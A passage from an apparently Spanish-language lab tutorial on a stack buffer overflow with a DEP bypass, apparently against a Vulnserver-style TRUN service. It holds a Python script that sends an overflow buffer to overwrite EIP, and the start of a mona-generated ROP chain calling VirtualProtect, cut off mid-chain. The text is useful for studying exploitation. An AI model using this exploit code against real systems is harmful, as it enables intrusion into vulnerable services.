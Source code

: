 ```python

	
	buffer = b"A"*2006 
	buffer += b"B"*4
	buffer += b"C"*(3500-2006-4)
	
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	connect = s.connect(('192.168.234.133', 9999))
	s.send(b'TRUN .' + buffer)
```

En este exploit conseguimos sobreescribir el EIP con 4 “B” y terminar de rellenar con “C”

![Untitled](/assets/images/Buffer-Overflow-byp-dep/Untitled%208.png)

Agregamos a nuestro exploit la función create_rop_chain que hemos sacado con mona:

```python
#!/usr/bin/python3

from pwn import *
from struct import pack

#CTRL+C
def def_handler(sig,frame):
	print("\n[!]Saliendo...")
	sys.exit(1)
signal.signal(signal.SIGINT, def_handler)

def create_rop_chain():

# rop chain generated with mona.py - www.corelan.be
	rop_gadgets = [
	#[---INFO:gadgets_to_set_esi:---]
	0x772d234a,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
	0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
	0x76a6fdb6,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [RPCRT4.dll] ** REBASED ** ASLR
	0x76b41470,  # XCHG EAX,ESI # RETN [WS2_32.DLL] ** REBASED ** ASLR
	#[---INFO:gadgets_to_set_ebp:---]
	0x75adfcb1,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR
	0x625011af,  # & jmp esp [essfunc.dll]
	#[---INFO:gadgets_to_set_ebx:---]
	0x77270b5d,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
	0xfffffdff,  # Value to negate, will become 0x00000201
	0x766b94ea,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
	0x75aa7926,  # XCHG EAX,EBX # RETN [msvcrt.dll] ** REBASED ** ASLR
	#[---INFO:gadgets_to_set_edx:---]
	0x75b27dfb,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR
	0xffffffc0,  # Value to negate, will become 0x00000040
	0x766ba918,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
```